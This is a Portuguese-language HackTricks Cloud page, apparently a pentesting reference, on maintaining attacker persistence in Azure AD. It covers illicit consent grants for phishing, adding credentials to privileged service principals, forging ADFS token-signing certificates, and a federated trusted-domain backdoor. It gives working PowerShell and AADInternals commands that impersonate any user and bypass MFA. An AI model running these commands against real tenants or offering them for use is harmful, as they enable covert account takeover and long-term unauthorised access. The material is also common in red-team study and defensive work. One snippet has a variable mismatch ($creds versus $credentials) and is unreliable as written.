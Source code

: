 # Az - Persistência

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no Github.

</details>

### Concessão de Consentimento Ilícito

Por padrão, qualquer usuário pode registrar um aplicativo no Azure AD. Portanto, você pode registrar um aplicativo (apenas para o locatário de destino) que precisa de permissões de alto impacto com consentimento do administrador (e aprová-lo se você for o administrador) - como enviar e-mails em nome de um usuário, gerenciamento de funções, etc. Isso nos permitirá **executar ataques de phishing** que seriam muito **frutíferos** em caso de sucesso.

Além disso, você também pode aceitar esse aplicativo com seu usuário como uma forma de manter o acesso sobre ele.

### Aplicativos e Princípios de Serviço

Com privilégios de Administrador de Aplicativos, GA ou uma função personalizada com permissões de atualização de microsoft.directory/applications/credentials, podemos adicionar credenciais (senha ou certificado) a um aplicativo existente.

É possível **direcionar um aplicativo com permissões elevadas** ou **adicionar um novo aplicativo** com permissões elevadas.

Uma função interessante a ser adicionada ao aplicativo seria a **função de administrador de autenticação privilegiada**, pois permite **redefinir a senha** dos administradores globais.

Essa técnica também permite **burlar a MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Para autenticação baseada em certificado

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federação - Certificado de Assinatura de Token

Com **privilégios de DA** no AD local, é possível criar e importar **novos certificados de assinatura de token** e **descriptografia de token** que têm uma validade muito longa. Isso nos permitirá **fazer login como qualquer usuário** cujo ImuutableID conhecemos.

**Execute** o comando abaixo como **DA nos servidores ADFS** para criar novos certificados (senha padrão 'AADInternals'), adicioná-los ao ADFS, desativar a rolagem automática e reiniciar o serviço:

```powershell
New-AADIntADFSSelfSignedCertificates
```

Em seguida, atualize as informações do certificado com o Azure AD:

```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```

### Federação - Domínio Confiável

Com privilégios de GA em um locatário, é possível **adicionar um novo domínio** (deve ser verificado), configurar seu tipo de autenticação como Federado e configurar o domínio para **confiar em um certificado específico** (any.sts no comando abaixo) e emissor:

```powershell
# Usando AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Obtenha o ImmutableID do usuário que queremos impessoar. Usando o módulo Msol
Get-MsolUser | select userPrincipalName,ImmutableID

# Acesse qualquer aplicativo em nuvem como o usuário
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```

## Referências

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no Github.

</details>